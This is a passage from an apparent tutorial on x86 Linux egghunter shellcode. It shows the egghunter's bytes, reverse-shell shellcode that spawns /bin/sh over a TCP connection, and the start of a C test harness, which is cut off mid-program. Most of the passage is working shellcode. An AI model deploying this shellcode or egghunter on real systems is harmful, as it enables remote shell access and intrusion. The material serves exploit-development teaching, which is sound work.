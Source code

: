 Cool. We have some egghunter code, lets setup an example program to
test it out. We will first compile and dump the bytes of our egghunter:

`./compile egghunter`

{% highlight bash %}

objdump -d ./egghunter|grep '[0-9a-f]:'\
| grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '\
|tr -s ' '|tr '\t' ' ' |sed 's/ $//g'|sed 's/ /\\x/g'\
|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7"

{% endhighlight %}

We will leverage our reverse shell from our previous
tutorial.

{% highlight c %}

unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1"
"\xcd\x80\x31\xff\x89\xc7\x31\xc0\xb0\x66\x31\xc9\xb9\x80\x1\x1\x2"
"\x81\xe9\x01\x01\x01\x01\x51\x66\x68\x11\x5c\x43\x66\x53\x89\xe1"
"\x6a\x10\x51\x57\x89\xe1\x43\xcd\x80\x31\xc9\xb1\x02\x31\xc0\xb0"
"\x3f\xcd\x80\x49\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f"
"\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

{% endhighlight %}

Create our c program demo

{% highlight c %}

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define EGG "\x50\x90\x50\x90"

unsigned char egghunter[] = \
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80"
"\x3c\xf2\x74\xee\xb8"
EGG
"\x89\xd7\xaf\x75\xe9\xaf\x75"
"\xe6\xff\xe7";

unsigned char shellcode[] = \
EGG
EGG
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1"
"\xcd\x80\x31\xff\x89\xc7\x31\xc0\xb0\x66\x31\xc9\xb9\x80\x1\x1\x2"
"\x81\xe9\x01\x01\x01\x01\x51\x66\x68\x11\x5c\x43\x66\x53\x89\xe1"
"\x6a\x10\x51\x57\x89\xe1\x43\xcd\x80\x31\xc9\xb1\x02\x31\xc0\xb0"
"\x3f\xcd\x80\x49\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f"
"\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xcd\x80";


main()
{
    int shellcode_len = strlen(shellcode);
    printf("Egghunter Length:  %d\n", strlen(egghunter));
    printf("Shellcode Length:  %d\n", shellcode_len);

    // Create a buffer to place our shellcode
    char *badbuffer;
    badbuffer=malloc(shellcode_len);
    memcpy(badbuffer,shellcode,shellcode_len);